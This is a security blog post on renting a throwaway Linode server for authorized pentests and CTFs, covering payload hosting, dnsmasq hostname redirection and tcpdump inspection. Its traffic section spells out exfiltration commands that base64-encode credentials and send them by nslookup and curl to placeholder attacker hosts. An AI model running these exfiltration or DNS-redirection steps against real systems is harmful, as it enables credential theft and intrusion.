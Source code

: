 ```yaml
---
title: "Dynamic Public Cloud Server for the Win"
date: 2020-01-03 09:00:00 +0000
layout: post
author: OverCast
twitter: "https://twitter.com/DefCon864"
permalink: blog/dynamic-public-cloud-server-ftw.html
tags: [cloud, dns, intercept traffic, CTF, Linode]
---
```

> This is for the pirates who clap
> And love the sound
> Attacking from the cloud
> Then we're back and underground
~ Dual Core, All The Things

TL;DR.
  - Prevent your home IP from being banned
  - Simple, cheap Linux server with dynamic, public IP address
  - Route DNS, HTTP, TLS, or other traffic you want to intercept
  - Host services needed for research, CTF, or pentest engagement

# Overview
There are many reasons why masking your traffic is important.  One specific case relates to the tasks we perform during an authorized hack or researching a potential vulnerability.  Scanning, trial 'n error discovery and exploitation can generate lots of traffic which can lead to your home IP address finding its way on one or more black lists.  Getting a new public IP address for su casa is a pain in the neck while your family enjoys the throwback non-Internet lifestyle of 1985.  

I recently needed to run several external public services but did not want to open any holes in my home perimiter or stand up a domain.  Those would be overkill to validate what I was researching, validate data exfiltration and perimiter leak vulnerabilities.  My requirements are simply: a dynamic public IP address in the wild to host DNS and web servers, SSH access to inspect DNS and TLS traffic.  This would work for any online CTF or pentest engagement where you want to validate the targets ability to communicate external to the organization.

The solution I went with -and it worked really well- was to spin up a [Linode Nanode server](https://www.linode.com/products/nanodes/).  The full engagement cost only $0.09 for 10 hours of system uptime.  In many respects this write-up is cloud vendor agnostic.  While I use [Linode](https://www.linode.com) here you can follow the same steps on a different provider with minor variation.

 __*Warning:*__  This is not a replacement for a proper VPN or Tor usage (proxychains).  It is a quick 'n fast means with little commitment to separate my public IP from the equation.

## Setup
Signing up for the cloud provider is a straight forward process.  No surprises here.  Creating a Nanode is just two steps:
1. Under the __Linode__ menu option Click __Create a Linode__

    ![create](/images/overcast/dynamic-public-cloud-server-ftw/01-create-a-nanode.png){:height="50%" width="50%"}

2. Define your settings
* Pick a __distro__
* Select a __Region__
* __Be careful of the default!__  Under Linode Plan select the __Nanode__ tab and pick the only option at the hourly rate of $0.0075.  The default, Standard plans are more expensive.
* Don't worry about the label and tags.  This system won't live long.
* Set your SSH keys or a root password for connecting.
* Click __Create__

    ![settings](/images/overcast/dynamic-public-cloud-server-ftw/02-nanode-settings.png){:height="50%" width="50%"}

Once you click the create button it takes a few seconds for the new box to provision and boot.  The __Summary__ page lists the IPv4 and IPv6 addresses.

    ![boot](/images/overcast/dynamic-public-cloud-server-ftw/03-boot.png){:height="50%" width="50%"}

Two console web shells options are provided by Linode (Weblish and Glish) but you'll want to use your own SSH session from your box.  Once you gain SSH access you can do all the normal sysadmin things to scaffold your platform.  I was raised by graybeards so the lack of maintaining tools such as netstat and ifconfig is disconcerting to say the least.  Yet I will resist the urge to install net-tools.  This host is bare bones right now so let's add what we need.

```bash
apt-get -y update
apt-get -y install nmap socat dnsmasq tcpdump
```

For those wondering, at this point your network transfer usage will be around 94 kb.  If you run an apt-get -y upgrade that number will change.

## So what can I do with this?  Here are some sample scenarios.
### Scan Your Home Public IP Address
You now have an external point of presence why not take a look at how the world sees you?  This is probably one of the most practical scenarios for anyone in IT.  It's always a good idea to get a street view of your home network.  Anything showing up that you didn't expect?
```nmap -T3 -sC -sV -Pn -p1-65535 HOME_IP```

### Public Web Server for Exploits
The simplest solution, host a temporary web server to test or exploit a vulnerability.  In this case the Nanode server runs python's SimpleHTTPServer hosting a desired payload.
```bash
mkdir badweb
cd badweb
echo "my bad payload for exploiting CSRF or some such vector" > payload.html
```
Start the web server to serve up those delicious payloads of wonder.
```python -m SimpleHTTPServer 80```
Or install Apache and operate out of /var/www/html.  The researcher triggers the vulnerability causing the target to call the Nanode web server's payload.  If this lights up a sysadmin radar or triggers a ban, no worries, destroy this nanode and start over.

### DNS Server
Name resolution plays an important role on a network.  If a network has improper egress filtering DNS can be used for exfiltration or to route internal targets to exploits hosted on your web server.  In my case I had control of the resolution process and wanted to route internal web server requests to my public web server.

On the nanode edit __/etc/dnsmasq.conf__:
* Uncomment the "__#no-resolv__" line (around line 54) so that your DNS server won't send requests upstream.
* Uncomment and modify line 131 to point to your local file for dnsmasq host resolution instead of /etc/hosts.
    ```addn-hosts=/etc/dnsmasq.hosts```
* Create the __/etc/dnsmasq.hosts__ file and set your bad web server IP address (eg. 1.2.3.4) to the hostname of the internal good web server.  This will resolve the good web server name to your bad web server.
```1.2.3.4  goodwebserver.company.com```

The addn-host file (dnsmasq.hosts) can be named anything and has the same content format as /etc/hosts.  Be aware though Linux can default to running its preinstalled dnsmasq as a service.  So if you attempt to start manually it will throw errors.  If you want greater control the default service can be stopped ```service dnsmasq stop``` and run manually ```dnsmasq --no-daemon --log-queries --log-facility=/var/log/dnsmasq.log```.  When not run in the background (or without tcpdump) the log file can be tailed to show any DNS queries ```tail -f /var/log/dnsmasq.log``` or parsed by one of your amazing scripts.

### Inspect Traffic
```tcpdump udp port 53 or tcp port 80 or tcp port 443```
For more verbosity use ```-v``` or ```-vv``` for a flood of connection information.  When you are in security researcher mode it helps to limit the scope to the specific protocol and port being evaluated.  This prevents unnecessary noise and keeps the content concise for the write-up.

If you have data to exfiltrate, such as ```echo "user:admin;pass:pfi9503" | base64 | sed 's/=//g'```, send it to your DNS server.
```nslookup dXNlcjphZG1pbjtwYXNzOnBmaTk1MDMK NANODE_DNS_IP_ADDRESS```
Your DNS server or tcpdump shows the query which you know to be base64 encoded.  When decoded this reveals not a hostname but the internal data ```user:admin;pass:pfi9503```.
Or if you only control a remote web server you can pull similar method from its logs by sending a request with the encoded data to exfiltrate.
```curl https://NANODE_IP_ADDRESS/superfuntime/dXNlcjphZG1pbjtwYXNzOnBmaTk1MDMK```
I use superfuntime as a control check for a script parsing the web log file to know when to decode.  It's not an actual directory or route and keeps the script from parsing any Internet noise. 

For the blue teamers among us this may be a great listening post to research the noise.

### Public CTF Box for DEF CON Group Meetings
While writing this post I thought of another use case.  Now that our meetings are both IRL and online this could be an interesting scenario for future DC864 meetings.  Instead of just having a CTF / vulnerable learning target on-site we can host it on a Nanode for both local and remote participants to use.  To reduce the traffic I'll probably pre-recon the box and provide it to the participants.  So if we cover a specific vector it can be the focus of the target and talk.  Even though there is a muscle memory learning benefit from recon to exploit to privelege escalation, etc. being hyper focused during meetings (eg. SQLi, LFI, etc.) could be a good thing.  Need to put a bit more brainery into this area before release so stay tuned or contribute ideas as you see fit.

Happy hacking everyone.
